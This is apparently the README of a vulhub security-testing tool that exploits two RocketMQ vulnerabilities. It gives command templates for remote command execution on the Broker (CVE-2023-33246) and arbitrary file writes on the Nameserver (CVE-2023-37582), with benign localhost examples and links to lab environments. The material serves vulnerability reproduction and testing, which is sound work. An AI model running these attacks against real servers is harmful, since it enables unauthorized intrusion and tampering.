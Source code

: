 # RocketMQ Attack Tool

A tool for testing RocketMQ vulnerabilities.

⚠️ **WARNING** ⚠️

**THIS IS A SECURITY TESTING TOOL THAT MAY CAUSE SEVERE DAMAGE TO TARGET APPLICATIONS**

- This tool can disrupt normal operations of RocketMQ services
- DO NOT use in production environments
- DO NOT use without explicit authorization
- Use at your own risk
- Authors are not responsible for any damage caused by this tool

## Features

- [x] Attack RocketMQ Broker (CVE-2023-33246)
- [x] Attack RocketMQ Nameserver (CVE-2023-37582)
- [x] Easy-to-use command-line interface
- [x] Support for both short and long command options

## Usage

Download the latest built JAR file from [Releases](https://github.com/vulhub/rocketmq-attack/releases/tag/1.1).

### Attack Broker (CVE-2023-33246)

Reproduce environment: [CVE-2023-33246](https://github.com/vulhub/vulhub/tree/master/rocketmq/CVE-2023-33246)

Command-line options:

- `-t, --target`: Target address in host:port format
- `-c, --cmd`: Command to execute on the target

```bash
java -jar rocketmq-attack-1.1-SNAPSHOT.jar AttackBroker --target <host:port> --cmd <command>

# Example:
java -jar rocketmq-attack-1.1-SNAPSHOT.jar AttackBroker --target 127.0.0.1:10911 --cmd "id"
```

### Attack Nameserver (CVE-2023-37582)

Reproduce environment: [CVE-2023-37582](https://github.com/vulhub/vulhub/tree/master/rocketmq/CVE-2023-37582)

Command-line options:

- `-t, --target`: Target address in host:port format
- `-f, --file`: Target file path to write
- `-d, --data`: Content to write into the file

```bash
java -jar rocketmq-attack-1.1-SNAPSHOT.jar AttackNamesrv --target <host:port> --file <file_path> --data <content>

# Example:
java -jar rocketmq-attack-1.1-SNAPSHOT.jar AttackNamesrv --target 127.0.0.1:9876 --file /tmp/test.txt --data "Hello World"
```

## Building

Requires JDK 8 or later.

```bash
./gradlew shadowJar
```

The built JAR file will be located at `build/libs/rocketmq-attack-1.1-SNAPSHOT.jar`

## References

- [CVE-2023-33246](https://nvd.nist.gov/vuln/detail/CVE-2023-33246)
- [CVE-2023-37582](https://nvd.nist.gov/vuln/detail/CVE-2023-37582)

## License

This project is licensed under the MIT License - see the [LICENSE](LICENSE) file for details.
